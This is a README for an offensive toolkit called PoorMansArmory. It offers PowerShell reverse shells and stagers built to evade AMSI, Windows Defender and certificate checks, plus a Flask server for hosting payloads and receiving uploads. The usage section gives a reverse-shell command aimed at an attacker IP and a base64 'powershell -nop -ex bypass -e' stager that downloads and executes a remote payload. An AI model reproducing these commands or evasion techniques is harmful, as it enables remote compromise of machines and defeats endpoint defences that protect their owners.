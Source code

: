 # PoorMansArmory
Collection of malleable payloads and tools that aim to bypass AMSI, Windows Defender, and self-signed certificate checks while being intuitive to use.

```
                            _ _
 ____  __  __      _       | | | 
|  _ \|  \/  |    / \      | | |
| |_) | |\/| |   / _ \     | | |  BALLIN ON A BUDGET
|  __/| |  | |_ / ___ \ _  | | |
|_| (_)_|  |_(_)_/   \_(_) | | |
                           |_|_|
```

### Reverse Shells & Stagers
- Supports both PowerShell Desktop and PowerShell Core
- Payloads default to PowerShell 5.0, but can be toggled to PowerShell 2.0
- Works in both a Linux and Windows environment

Below example creates a reverse shell that has disables AMSI and loads in the WebClient Helper scripts, outputs the revshell into the "pma_server.py" downloads directory, and creates a stager pointing to the payload.
```powershell
# pwsh
PS /opt/PoorMansArmory> Get-RevShell <attacker_ip> <listening_port> -AmsiBypass -WebClientURL "http(s)://<ip_addr>" -Base64 > ./downloads/revshell
PS /opt/PoorMansArmory> Get-Stager -PayloadURL "http(s)://<ip_addr>/d/revshell" -Base64
powershell -nop -ex bypass -e aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AKQAuAEQAbw
B3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAAoAHMAKQA6AC8ALwA8AGkAcABfAGEAZABkAHIAPgAvAGQALwBOAG8AdABBAFIAZQB2AFMAaABlAGwAbAAnACkAKQA=
```

### pma_server.py
- Simple Flask server
- Supports SSL via self-signed certificates
- ``/d/`` directory is for downloadable files
- ``/u/`` directory is for uploaded files

![pma_server](https://cdn.discordapp.com/attachments/855920119292362802/1110739921028792351/image.png)

### WebClient Helper Tools
Functions Include:
- "download"
- "upload"
- "import"

Below example uses the WebClient helper tools with both an AMSI bypass and HTTPS bypass.  Functionality shows off uploads, as well as importing PowerShell scripts into session, as well as reflecting C# binaries.

![WebClient Helpers](https://cdn.discordapp.com/attachments/855920119292362802/1110744324158799932/image.png)
)
